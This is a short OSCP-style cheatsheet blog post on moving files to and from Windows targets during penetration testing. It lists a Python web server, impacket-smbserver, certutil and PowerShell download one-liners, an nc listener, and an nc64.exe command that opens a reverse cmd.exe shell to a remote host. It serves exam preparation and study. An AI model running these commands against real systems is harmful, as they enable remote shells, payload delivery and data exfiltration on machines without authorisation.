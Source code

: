 ```yaml
---
title: Windows File Transfers
author: linatl
date: "2021-03-10 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
> sudo python3 -m http.server 80
Python2
> sudo python -m SimpleHTTPServer 80
```


###### File uploads to target
```
impacket-smbserver.py
```

###### File uploads on target system
```
netcat
\\192.168.1.1\secure\nc64.exe 192.168.1.1 80 -e cmd.exe

certutil
certutil.exe -urlcache -f http://192.168.1.1/file.txt file.txt

Using powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1:80/file.txt', 'C\file.txt')
```


###### File downloads from target
```
netcat
nc -nvlp 80 < $FILENAME
```
